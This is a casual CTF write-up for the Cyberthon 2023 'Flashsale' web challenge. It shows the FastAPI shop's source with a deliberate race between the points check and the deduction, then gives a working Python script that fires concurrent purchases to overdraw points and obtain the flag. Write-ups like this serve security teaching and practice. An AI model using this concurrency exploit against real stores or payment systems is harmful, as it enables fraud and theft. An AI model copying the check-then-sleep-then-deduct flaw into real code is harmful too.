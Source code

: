# Flashsale

category: web

requires: race condition

```py
from fastapi import FastAPI, HTTPException
from pydantic import BaseModel
from typing import List
import asyncio
import uuid

app = FastAPI()

user_db = {}

shop = {"CTF Flag": 10, "White Flag": 1}
flag = open("flag.txt").read().strip()


class User(BaseModel):
    points: int = 1
    items: List[int] = []


class ItemRequest(BaseModel):
    uid: str
    item: str


@app.get("/new")
async def new():
    while True:
        new_id = uuid.uuid4()
        if str(new_id) not in user_db.keys():
            user_db[str(new_id)] = User()
            return {"uid": new_id}


@app.get("/")
@app.get("/shop")
async def list_shop_items():
    return shop


@app.post("/shop")
async def purchase_item(request: ItemRequest):
    try:
        user = user_db[request.uid]
    except KeyError:
        raise HTTPException(status_code=400, detail="Invalid User")

    try:
        price = shop[request.item]
    except KeyError:
        raise HTTPException(status_code=400, detail="Invalid Item")

    if user.points < price:
        raise HTTPException(status_code=400, detail="Insufficient Points")

    await asyncio.sleep(0.1)
    user.items.append(request.item)
    if user.points > 0:
        user.points -= price

    if request.item == "CTF Flag":
        return {"msg": flag}

    return {"msg": f"You bought a {request.item}"}


@app.post("/sell")
async def sell_item(request: ItemRequest):
    try:
        user = user_db[request.uid]
    except KeyError:
        raise HTTPException(status_code=400, detail="Invalid User")

    if request.item not in user.items:
        raise HTTPException(
            status_code=400, detail=f"No {request.item} to sell"
        )

    try:
        price = shop[request.item]
    except KeyError:
        raise HTTPException(status_code=400, detail="We don't buy such items")

    user.items.remove(request.item)
    user.points += price

    return {"msg": f"You sold a {request.item}"}
```
ok so when user gets initialized we only get 1 point, but we need 10 points to buy a flag :( ...

so we begin looking around for the sussy in the code and theres just a random `await asyncio.sleep(0.1)`, when buying something it checks sufficient points -> waits 0.1s -> adds it

so we can abuse race condition by just buying 10 white flags within 0.1s because it doedsnt have time to realise we have no money

also, because of `if user.points > 0: user.points -= price` we dont actually go into negative balance

so, we can just buy 10 white flags simultaneously with 1 point and then sell them all, then buy a flag. soo here

```py
import requests
import concurrent.futures

uid = requests.get("http://chals.f.cyberthon23.ctf.sg:44050/new").json()["uid"]

#buy 10 white flags

def f():
    url = "http://chals.f.cyberthon23.ctf.sg:44050/shop"
    data = {"uid": uid, "item": "White Flag"}

    response = requests.post(url, json=data)

    return response.json()

with concurrent.futures.ThreadPoolExecutor(max_workers=20) as executor:
    futures = [executor.submit(f) for _ in range(20)]
    results = [future.result() for future in concurrent.futures.as_completed(futures)]

#sell all

url = "http://chals.f.cyberthon23.ctf.sg:44050/sell"
data = {"uid": uid, "item": "White Flag"}

for i in range(10):
    response = requests.post(url, json=data)

#rebuy 1

url = "http://chals.f.cyberthon23.ctf.sg:44050/shop"
data = {"uid": uid, "item": "CTF Flag"}

response = requests.post(url, json=data)

print(response.json())


```

ok this code is damn messy bc i was too lazy to be nice with the urls and stuff but its too late to fix that
